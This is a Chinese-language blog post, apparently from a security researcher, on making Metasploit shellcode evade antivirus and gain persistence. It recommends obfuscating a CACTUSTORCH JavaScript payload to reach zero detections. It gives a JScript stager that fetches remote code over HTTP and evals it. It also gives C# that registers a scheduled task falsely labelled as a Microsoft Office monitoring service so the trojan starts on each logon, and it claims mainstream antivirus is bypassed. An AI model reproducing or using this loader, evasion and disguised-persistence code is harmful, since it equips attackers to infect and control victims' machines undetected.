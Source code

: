 +++
title = "免杀shellcode并绕过杀毒添加自启动"
author = "Hzllaga"
date = 2020-02-17
categories = [ "原创" ]
tags = ["免杀","shellcode"]
+++
首先得处理好shellcode，尽量把添加自启动的操作独立成一个Loader，可以避免杀毒软件检测到特征并拦截，这边选择的是利用Javascript来处理Shellcode，而添加自启动的操作由C#来控制，并成功实现了绕过360核晶防护添加计划任务完成木马自启动。<!--more--> 
Shellcode的部分用CACTUSTORCH完成，链接：[CACTUSTORCH](https://github.com/mdsecactivebreach/CACTUSTORCH)
也可以自己C#编译一个再用DotNetToJScript转Javascript语言，教程：[免杀 MSF Windows Payload 的方法与实践](../免杀-msf-windows-payload-的方法与实践/)

处理完的js脚本，推荐使用sojson的混淆代码，可以实现virustotal的57引擎0报毒，链接：[Js加密](https://www.sojson.com/jsobfuscator.html)，我一个18年处理的msf shellcode到现在还是0报毒。

因为混淆了，所以体积自然会变很大，这边提供一个网络加载的方式，可以把体积缩小到4kb：
{{< highlight JavaScript >}}
var xml=new ActiveXObject("Microsoft.XMLHTTP");
xml.open("GET","http://127.0.0.1/ccc.js",false);
xml.send();
var aaa=xml.responseText;
eval(aaa);
{{< /highlight >}}
因为是WSH模式的，当然还能用`WScript.Arguments.Item(0);`的方式来传递代码，可以直接注入一个加密的代码，然后在写一段解密的代码会更隐蔽。

再来谈谈添加自启动，因为程序现在不需要处理上面那些行为，所以杀毒不会拦截，代码：
{{< highlight csharp>}}
TaskSchedulerClass scheduler = new TaskSchedulerClass();
//连接
scheduler.Connect(null, null, null, null);
//获取创建任务的目录
ITaskFolder folder = scheduler.GetFolder("\\");
//设置参数
ITaskDefinition task = scheduler.NewTask(0);
task.RegistrationInfo.Author = "Microsoft Office";//创建者
task.RegistrationInfo.Description = "This task monitors the state of your Microsoft Office ClickToRunSvc and sends crash and error logs to Microsoft.";//描述
//设置触发机制（此处是 登陆后）
task.Triggers.Create(_TASK_TRIGGER_TYPE2.TASK_TRIGGER_LOGON);
//设置动作（此处为运行exe程序）
IExecAction action = (IExecAction)task.Actions.Create(_TASK_ACTION_TYPE.TASK_ACTION_EXEC);
action.Path = Path.GetTempPath() + @"\" + file + ".exe";//设置文件目录
task.Settings.ExecutionTimeLimit = "PT0S"; //运行任务时间超时停止任务吗? PTOS 不开启超时
task.Settings.DisallowStartIfOnBatteries = false;//只有在交流电源下才执行
task.Settings.RunOnlyIfIdle = false;//仅当计算机空闲下才执行

IRegisteredTask regTask =
    folder.RegisterTaskDefinition("Office ClickToRun Service Monitor", task,//此处需要设置任务的名称（name）
    (int)_TASK_CREATION.TASK_CREATE, null, //user
    null, // password
    _TASK_LOGON_TYPE.TASK_LOGON_INTERACTIVE_TOKEN,
    "");
IRunningTask runTask = regTask.Run(null);
{{< /highlight >}}
程序添加完自启动，还能顺便把上面网络加载的js脚本释放出来并运行，到发布日期0217能过各种主流杀毒不被查杀并正常上线。![](https://cdn.wtfsec.org/img/20200222165121.png)
相关代码已经发布在Github上，链接：[https://github.com/Hzllaga/JsLoader](https://github.com/Hzllaga/JsLoader)